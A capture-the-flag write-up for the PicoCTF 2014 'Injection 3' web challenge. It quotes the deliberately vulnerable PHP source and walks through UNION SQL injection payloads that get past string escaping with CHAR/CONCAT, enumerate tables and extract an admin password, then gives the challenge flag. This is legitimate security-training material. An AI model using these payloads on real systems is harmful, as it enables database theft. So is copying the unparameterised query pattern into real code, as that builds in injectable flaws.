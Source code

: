 # Pico CTF 2014 : Injection 3

**Category:** Web Exploitation
**Points:** 130
**Description:**

>Daedalus Corp. has increased the security of their login prompt. Is it possible to work around their new defenses?
 http://web2014.picoctf.com/injection3/

**Hint:**
>Pretend the mysqli_real_escape_string in lookup_user.php isn't there and try doing your standard UNION SQL injection. What does the query end up looking like?

## Write-up

In the site index.php we are presented with a login form that takes a username and a password.

The source code for that is also given:

```
<?php
include "config.php";
$con = mysqli_connect("localhost", "sql3", "sql3", "sql3");
$username = mysqli_real_escape_string($con, $_POST["username"]);
$password = mysqli_real_escape_string($con, $_POST["password"]);
$query = "SELECT * FROM ${table_prefix}users WHERE username='$username' AND password='$password'";
$result = mysqli_query($con, $query);

if (mysqli_num_rows($result) === 1) {
  $row = mysqli_fetch_array($result);
  echo "<h1>Logged in!</h1>";
  if ($row["username"] === "admin") {
    echo "<p>Your flag is: $FLAG</p>";
  } else {
    echo "<p>Only admin can see the flag.</p>";
  }
} else {
  echo "<h1>Login failed.</h1>";
}
?>
```

There doesn't seem to be some visible sql injection there but there is a link on the page below for the /lookup_user.php?id=1 page which when loaded contains the following:

```
User info for admin
Display name: Admin
Location: Pittsburgh
E-mail: admin@admin.me

View source
```

The source code of lookup_user.php is:

```
<?php
include "config.php";
$con = mysqli_connect("localhost", "sql3", "sql3", "sql3");
// ID is escaped, so this must be safe, right?
$id = mysqli_real_escape_string($con, $_GET["id"]);

if (intval($_GET["debug"])) {
  echo "<pre>";
  echo "id: ", htmlspecialchars($id);
  echo "</pre>";
}

$query = "SELECT * FROM ${table_prefix}users WHERE id=$id";
$result = mysqli_query($con, $query);

if (mysqli_num_rows($result) !== 1) {
  die("<p>Could not find user.</p>");
}

$row = mysqli_fetch_array($result);
echo "<pre>";
echo "User info for ", htmlspecialchars($row["username"]), "\n";
echo "Display name: ", htmlspecialchars($row["display_name"]), "\n";
echo "Location: ", htmlspecialchars($row["location"]), "\n";
echo "E-mail: ", htmlspecialchars($row["email"]), "\n";
echo "</pre>";
echo '<a href="lookup_user.phps">View source</a>';
?>
```

As in the injection-2 challenge there is a debug flag to show us the query we have inputed in id= and it requires a single row to be returned.

We can start simple by changing `id=1` to `id=1 OR 0=1`. The second query doesn't fail so there is a possibility to inject SQL statements.

We could immediately try a UNION SELECT .... FROM ${table_prefix}users but we don't know the table prefix.

By quickly searching you can see that the information_schema.TABLES table in mysql contains the table names contained in the database. We also know that our table ends in "\*users". If we ignore the `mysqli_real_escape_string` for a moment and assume that no filtering is done in our input then our normal query that would give us the \*users table would look like this

```
id=1 AND 1=0 UNION SELECT TABLE_NAME AS username, TABLE_NAME AS location, TABLE_NAME as password2, TABLE_NAME as password3, TABLE_NAME as password, TABLE_NAME AS email, TABLE_NAME as display_name FROM information_schema.TABLES WHERE TABLE_NAME LIKE "%users" LIMIT 1
```

We invalidate the results of the first SELECT statement by adding the `AND 1=0`, do a UNION SELECT with some extra columns (7 in total) to match the number of columns in the ${table_prefix}users (we can find that with quick trial and error by adding columns one-by-one) and finally we LIMIT the results to 1 so that it passes the if check in the php code.

The issue here is that the `mysqli_real_escape_string` function escapes the " and turns it to a \" in the query and thus the page returns a `Could not find user.`. 

We can avoid that check by encoding the double quotes with `CONCAT(CHAR(37), CHAR(117), CHAR(115), CHAR(101), CHAR(114), CHAR(115))`. The CHAR() function turns the numbers to their ascii encoding and the concat turns all the characters to a string surrounded with double quotes. The end result of this CONCAT will be "%users".

So if we try

```
http://web2014.picoctf.com/injection3/lookup_user.php?debug=1&id=1 AND 1=0 UNION SELECT TABLE_NAME AS username, TABLE_NAME AS location, TABLE_NAME as password2, TABLE_NAME as password3, TABLE_NAME as password, TABLE_NAME AS email, TABLE_NAME as display_name FROM information_schema.TABLES WHERE TABLE_NAME LIKE CONCAT(CHAR(37), CHAR(117), CHAR(115), CHAR(101), CHAR(114), CHAR(115)) LIMIT 1
```

We get

```
User info for super_secret_users
Display name: super_secret_users
Location: super_secret_users
E-mail: super_secret_users
```

Therefore our users table is `super_secret_users`.

Now all we need is to do a UNION SELECT with tha table to get the Admins password and use that to login.

We try:

```
http://web2014.picoctf.com/injection3/lookup_user.php?debug=1&id=1 AND 0=1 UNION SELECT username, password AS location, username as password2, username as password, username as password, username AS email, username as display_name FROM super_secret_users LIMIT 1
```

and get

```
User info for not_the_flag_super_secret_admin_password
Display name: admin
Location: admin
E-mail: admin
```

The password is `not_the_flag_super_secret_admin_password` and if you use that to login in the initial login.php you get the flag `flag_2tc7ZPa5PEhcyZJXgH`.

## Other write-ups and resources

* none yet
